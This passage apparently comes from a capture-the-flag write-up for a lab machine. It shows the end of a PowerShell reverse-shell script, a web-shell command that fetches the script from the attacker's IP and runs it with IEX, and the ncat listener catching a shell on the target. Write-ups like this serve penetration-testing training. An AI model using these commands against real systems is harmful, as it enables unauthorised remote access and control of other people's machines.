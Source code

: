 ```powershell
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target."
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Give_A_Shell_To_Dumb -Reverse -IPAddress 10.10.14.13 -Port 4242
```

Now in burp repeater run:

```php
cmd=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/dumb-shell.ps1')"
```

````bash
❯ nc -nlvp 4242 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 10.10.10.167.
Ncat: Connection from 10.10.10.167:49681.
Windows PowerShell running as user CONTROL$ on CONTROL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot>
````
